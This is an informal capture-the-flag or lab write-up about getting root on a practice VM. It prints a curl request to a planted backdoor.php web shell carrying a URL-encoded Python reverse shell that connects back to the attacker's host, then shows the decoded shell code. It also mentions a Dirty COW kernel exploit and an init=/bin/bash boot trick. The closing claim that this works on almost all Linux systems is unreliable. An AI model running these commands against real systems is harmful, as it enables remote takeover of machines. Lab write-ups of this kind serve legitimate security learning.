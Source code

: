 # writeup 2

We have to do in the same way as in **writeup1** until using **curl** tool))

After doing that we have an incredible way to get the control of the root

**BACKDOOR**

Do not be scared, everything is done for educational purposes)

<img src="img/photo_5435923932709510476_y.jpg">

here is the encrepted code of it 

```
curl --insecure 'https://192.168.56.101/forum/templates_c/backdoor.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%2Cpty%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.56.1%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dpty.spawn%28%22%2Fbin%2Fbash%22%29%3B%27'
```

Don't be scared 2, this is just an url encode python code of this

```
import socket, subprocess, os, pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.56.1",1234));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=pty.spawn("/bin/bash");
```

You can syplly write on your own code then just seach on Google **url encoder** and translate to this

We have done this to get a reverse shell and execute cmd on server,

So, now we need some kind of kernel exploit to have a root

On this picture you can see cmds and potential issues.

<img src="img/photo_5435923932709510484_y.jpg">

If you see exact same thing, Congratulations!!!🥳 you also got an error🆘😅
This shows that curl did not work properly -> to fix it do this

```
cat > dirty.c << end
# and we gonna copy code here
```


```
#{partition} init=/bin/bash,
live init=/bin/bash
```
And we get the following result

<img src="img/Pasted image 20240712012047.png">

By the way, it turns out that this method works almost on all linux systems currently, and the only way to protect from this is to simply encrypt the disk 🙂
